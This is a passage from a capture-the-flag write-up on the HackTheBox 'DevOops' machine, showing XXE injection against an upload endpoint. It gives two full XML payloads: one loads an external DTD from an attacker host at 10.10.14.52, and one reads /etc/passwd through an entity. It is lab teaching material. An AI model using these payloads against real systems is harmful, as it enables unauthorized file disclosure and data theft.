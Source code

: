 Then, we can trigger the target application to fetch this file via the following XXE payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.10.14.52/oops.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

After uploading this XML file to the target I receive a connection to my python server:

![requests-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/DevOops/img/requests-08.png)


This proves that the target application is vulnerable to XXE, but we didn't manage to exfiltrate any sensetive data. 


Then I went back to the `/upload` directory. We can see that it says `XML elements: Author, Subject, Content`, maybe we need to send an XML document containing these elements?


So I made the following XML document:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<Subject>A blog about things</Subject>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<Content>&xxe;</Content>
<link>http://example.com</link>
<description>a post</description>
<Author>author@example.com</Author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```


It's a slightly bigger XML file, but the XXE attack here is exactly the same as the very first XXE document we sent. It's a basic varaible which is mapped to the contents of the local `/etc/passwd` file. 

